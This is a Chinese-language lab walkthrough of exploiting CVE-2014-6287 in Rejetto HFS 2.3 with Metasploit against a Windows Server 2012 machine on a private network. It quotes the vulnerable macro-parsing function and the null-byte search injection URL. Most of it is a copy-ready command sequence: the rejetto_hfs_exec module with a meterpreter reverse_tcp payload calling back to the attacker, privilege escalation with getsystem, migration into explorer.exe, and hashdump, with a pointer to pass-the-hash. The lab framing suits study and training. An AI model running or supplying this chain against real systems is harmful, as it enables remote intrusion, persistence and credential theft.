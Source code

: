 # Metasploit攻击HFS2.3上的漏洞

攻击机： kali 192.168.109.137

靶机： windows server 2012 192.168.109.141

工具：Metasploit

根据CVE-2014-6287的描述，Rejetto网络文件服务器(也被称为HSF或者HttpFileServer)的2.3x版本(2.3c以前的版本)中的parserLib.pas文件使用了一个findMacroMaker函数，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的%00序列利用该漏洞执行任意程序。

下面给出了这个有漏洞的函数：

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

这个函数不能正确的处理空字节，所以当我们对[http://localhost:80/search=%00](http://localhost:80/search=){.exec|cmd.}发起请求时，就会停止对宏的正则解析，从而导致远程代码的注入。

## 开启MSF

```
msfconsole
```

## 渗透漏洞

```
search hfs
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOST 192.168.109.141
set RPORT 8080
show payloads
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
show options
exploit
```

此时，我们已经以管理员的身份获得了Windows server 2012系统的权限。

## 将权限提升为系统级

```
getsystem
```

## 查看系统进程和Meterpreter正在驻留的进程号

```
ps
getpid
```

## 绑定Meterpreter到其他进程

这里，为了保险起见，我们将Meterpreter的进程绑定到explorer.exe的进程号，这里，explorer.exe的进程号为1864,执行如下命令：

```
migrate 1864
```

此时，我们再次输入getpid命令查看，Meterpreter正在驻留的进程号变成了1864

## 收集系统密码的哈希值

```
hashdump
```

完成了哈希值的收集之后，就可以执行pass-the-hash攻击，在没有明文密码的情况下绕过限制。